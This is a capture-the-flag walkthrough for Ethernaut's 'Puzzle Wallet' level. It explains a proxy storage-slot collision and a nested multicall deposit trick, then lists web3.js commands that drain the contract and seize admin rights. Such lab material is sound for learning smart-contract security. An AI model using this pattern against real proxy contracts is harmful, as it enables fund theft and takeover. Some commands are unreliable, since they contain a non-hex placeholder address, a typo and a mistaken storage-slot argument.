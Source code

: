# Solution to challenge 24 : Puzzle Wallet

Our goal here is to claim ownership of the PuzzleProxy contract. First we need to understand the Proxy structure of the challenge, the slot arrangement in both contracts should be the same because the slots are mapped. 

As a result, when the proxy contract makes a call to the implementation contract, the proxy's storage variables are modified and the call is made in the context of the proxy.

```
SLOT    PuzzleProxy   |  PuzzleWallet
----------------------------------------------------------------------------------
0       pendingAdmin     owner

1       admin            maxBalance
```        

This means that if we change the value of `pendingAdmin` in ``PuzzleProxy`` contract , the `owner` value will be changed in `PuzzleWallet` contract.

So let's think about our objective : change `admin` value in `PuzzleProxy` to player's address, there is no way to change it through ``PuzzleProxy``, so let's aim at changing `maxBalance` value which shares the "same storage slot".

### There are 2 ways to alter this value :

1. `init()` function : not exploitable because it **has already been initialized**
2. `setMaxBalance()` function : exploitable but we need the contract's balance to be equal to zero

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet1.png)

Unfortunately, by default the contract's balance is equal to `0.001 ether` :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet2.png)

We can reduce its balance through `execute()` function which is equivalent to a withdraw function :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet3.png)

Sadly the contract keeps track of what we deposited, that's why we will need to use the last and most complex function available : `multicall()` 

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet4.png)

This function allows us to execute multiple functions in 1 transaction. Thus, we can abuse of the fact that even if ETH is spent, `msg.value` will remain the same and take the opportunity to make a double call to the `deposit` function. The developers were aware of this exploitable issue and made a protection by checking the **selector** (first 4 bytes of the function signature).

But we can bypass this protection if we **"pack"** one deposit inside another `multicall`

## Let's sum up all the actions required together, we will only used web3 js commands :

### 1. Claim ownership of `PuzzleWallet` contract by changing `pendingAdmin` value to the player's address

We first calculate the signature of the `proposeNewAdmin` function :

```
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");

'0xa6376746'
```

Then the signature of the parameter `address` with player's address : 

```
web3.eth.abi.encodeParameter("address", player);

'0x000000000000000000000000cabcdefghijkl123456123451234567123456789'
```

We put them together and send this transaction data :

```
contract.sendTransaction({ data: '0xa6376746000000000000000000000000cabcdefghijkl123456123451234567123456789' });
```

After that, the `owner`'s  value of `PuzzleWallet` is now your player's address.

### 2. Add our player's address to the whitelist in order to interact with the different functions

```
contract.addToWhitelist(player);
```

### 3. Prepare the data bytes required for the  ``multicall`` and `deposit` exploit, do not forget to include the parameters expected by the functions

``deposit()`` function signature :

```
deposit = web3.eth.abi.encodeFunctionSignature("deposit()");

'0xd0e30db0'
```

`multicall(bytes[])` function signature :

```
multicall = eb3.eth.abi.encodeFunctionSignature("multicall(bytes[])");

'0xac9650d8'
```

Signature of the `deposit` call as a  `multicall` parameter :

```
web3.eth.abi.encodeParameter('bytes[]', [deposit]);

'0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

Again, we add the `deposit` function signature  :

```
packedDeposit = '0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

### 4. Call `multicall` function with the prepared data bytes with a msg of at least ``0.001 ether``

```
contract.multicall([deposit, packedDeposit], { value: toWei('0.001') });
```

### 5. As a result, the contract has now a balance equal to `0.002 ether`, we called twice the deposit function and increased our "available balance" while only depositing `0.001 ether`

```
(await getBalance(instance)).toString();

'0.002'
```

### 6. We can now withdraw `0.002 ether` from the contract using `execute` function and make the contract's balance empty

```
contract.execute(player, toWei('0.002'), '123');
```

### 7. All the protections are now gone, we can now change `maxBalance` value to finally become the owner of the `PuzzleProxy` contract

```
contract.setMaxBalance('1116821831790595974849218070050646934865281521986');
```


## BONUS : Retrieve the address of the proxy's contract

Once we get our game instance, we only know the `PuzzleWallet` 's contract address. 

But according to **EIP-1967** : To avoid clashes in storage usage between the proxy and logic contract, the address of the logic contract is typically saved in a specific storage slot guaranteed to be never allocated by a compiler.

For OpenZeppelin's contracts it is at slot ``0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc``

As a result, we can get our address by getting the data at this specific storage slot :

`web3.eth.getStorageAt(instance,"0xcabcdefghijkl123456123451234567123456789")`

Source : https://eips.ethereum.org/EIPS/eip-1967